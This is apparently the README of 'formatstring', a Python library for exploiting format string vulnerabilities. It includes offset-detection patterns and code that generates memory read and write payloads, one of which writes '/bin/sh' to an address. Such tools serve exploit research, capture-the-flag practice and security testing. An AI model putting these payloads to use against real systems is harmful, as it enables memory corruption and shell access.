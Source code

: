 # Formatstring

Formatstring is a **python 3** library to help the exploitation of **format string vulnerabilities**.

## Install

**formatstring** can be installed from PyPI (Python package index) using pip:
```bash
pip install formatstring
```

## Examples

* Generate a pattern to detect the offset of the printed buffer
```bash
$ fmtstr_pattern_create 255
ABCDEFGH|%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p|%9$p|%10$p
```

* Compute the offset, given the result of the format string on the previous pattern
```bash
$ fmtstr_pattern_offset --arch x86_32
Enter the result of the format string on a pattern given by pattern_create:
ABCDEFGH|0x400|0xf776e5a0|0x4|0x4|0x7|0x1b3220|0x43424120|0x47464544|0x31257c48|0x257c7024
Found buffer at offset 8
```

* Generate a payload to read at a given address
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = ReadPayload(0x8048590)
sys.stdout.buffer.write(p.generate(settings))
```

* Generate a payload to write at various addresses
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = WritePayload()
p[0x8049790] = b'/bin/sh\x00'
p[0x80497a8] = struct.pack('@I', 0x01020304)
sys.stdout.buffer.write(p.generate(settings))
```

## Doc

The full documentation is [available here](https://github.com/arthaud/formatstring/wiki/User's-guide).

## Contributors

Author: Maxime Arthaud (maxime@arthaud.me)

## License

formatstring is under The MIT License (MIT)
